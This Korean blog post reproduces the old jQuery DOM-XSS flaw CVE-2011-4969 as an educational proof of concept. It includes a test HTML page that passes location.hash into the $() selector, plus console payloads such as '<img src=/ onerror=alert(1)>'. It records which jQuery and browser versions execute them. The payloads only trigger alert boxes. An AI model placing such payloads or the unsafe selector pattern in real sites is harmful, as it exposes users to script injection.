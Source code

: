 ```yaml
---
layout: post
title: "jQuery의 wrap함수로 XSS가 가능한지 확인하기"
categories: [보안취약점, jQuery, XSS]
tags: [보안취약점, jQuery, XSS, wrap 함수]
toc: true
last_modified_at: 2023-08-18 18:15:00 +0900
---
```


# 개요
- 오래된 jquery (버전1.6.3이전)에 존재했던 Dom-XSS 취약점을 POC해본다. 
- 이 취약점은 CVE-2011-4969로 알려져 있다. 
- 이 취약점에서 주목할만한 것은 jquery 셀렉터(`$()`) 자체가 sink가 될 수 있다는 것이다. 


# POC 실시
## 검증용 소스 코드 
- 검증용 소스는 다음과 같다. 
- 링크(앵커태그)를 클릭하면 URL에 해시부분파라메터가 설정되어 XSS가 동작하는 코드다. 

```html
<html>
<head>
    <script src="jquery-1.6.1.js"></script>

</head>
<body>
<p>XSS Link <a href="#<img src=/ onerror=alert(1)>" target="_blank">link</a>.</p>
<script>
  $(function() {
    $(location.hash)    
   });
</script>
</body>
</html>
```

## 검증결과 
크롬에서는 다음과 같은 에러가 발생해서 실패했다. `#<img src=/ onerror=alert(1)>`가 URL인코딩되어서 `#%3Cimg%20src=/%20onerror=alert(1)%3E`가 된 결과, jQuery에서 인식하지 못하는 코드라고 에러가 발생한다. 

![크롬 에러](/images/jquery-dom-xss-1-6-1-chrome-error.png)

그런데 오래된 인터넷 익스플로러에서는 코드가 실행되는 것을 확인했다. 아마도 URL인코딩하지 않고 바로 전달해주는 것이리라. 

![IE 성공](/images/jquery-dom-xss-1-6-1-ie.png)


# 추가 테스트
## `$('<img src=/ onerror=alert(1)>')`는 실행가능한가?
- jquery의 셀렉터에 코드를 전달해주면 실행되는가를 테스트해본다.
- 놀랍게도 이 것은 최신의 jQuery (버전3.7.0)에서도 실행가능한 것을 확인했다. 

![jquery 셀렉터 코드 실행](/images/jquery-dom-xss-3-7-0.png)


## `$('#<img src=/ onerror=alert(1)>')`는 실행가능한가?
- 자바스크립트에서 `location.hash` 로 해시값에 접근하면 앞에 `#`기호가 붙은 문자열이 리턴된다. 
- location.hash의 값을 바로 jQuery의 셀렉터에게 전달해주면 코드가 실행될까? 

다음 코드를 크롬의 디버거 콘솔에서 실행시켜본다. 그러면 jquery버전1.6.2를 쓸 때는 alert창이 뜬다. 

```js
$('#<img src=/ onerror=alert(1)>')
```

![cve-2011-4969-chrome-console](/images/cve-2011-4969-chrome-console.png)


버전1.6.3부터는 다음과 같은 에러 메세지가 출력된다. jQuery 코드가 수정된 것이다. 

```
Uncaught Syntax error, unrecognized expression: >
```

![jquery1.6.3에러](/images/cve-2011-4969-jquery-1.6.3-error.png)

## `$('?<img src=/ onerror=alert(1)>')`는 실행가능한가?
- 자바스크립트에서 `location.search` 로 쿼리스트링 값에 접근하면 앞에 `?`기호가 붙은 문자열이 리턴된다. 
- location.search의 값을 바로 jQuery의 셀렉터에게 전달해주면 코드가 실행될까? 

다음 코드를 크롬의 디버거 콘솔에서 실행시켜본다. 그러면 jquery버전1.8.3 까지의 버전에서는 alert창이 뜬다. 

```js
$('?<img src=/ onerror=alert(1)>')
```

1.8.3버전에서 실행되는 모습
![jquery-1.8.3-location-search](/images/jquery-dom-xss-1-8-3-location-search.png)

그 다음버전인 1.9.0부터는 실행되지 않는 것을 볼 수 있다. 

![query-1.9.0-location-search](/images/jquery-dom-xss-1-9-0-location-search.png)


# 참고 
- https://nicksecuritylog.com/entry/sourcecode_master_1
- https://www.cvedetails.com/cve/CVE-2011-4969/